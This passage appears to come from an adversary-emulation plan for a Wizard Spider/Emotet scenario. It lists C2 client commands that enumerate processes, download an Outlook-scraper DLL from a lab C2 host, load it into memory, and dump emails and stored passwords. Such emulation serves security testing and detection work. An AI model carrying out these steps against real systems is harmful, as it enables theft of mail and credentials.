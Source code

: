 Lastly, Wizard Spider executes the Outlook-scraper to dump emails and contacts.

One of the emails contains credentials for another user, bill@oz.local, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### :biohazard: Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)


Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/f46aab5932abfd05db068d1eb81d14fdd15dc3e4/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/OutlookScraper/OutlookScraper/outlook.cpp#L64)
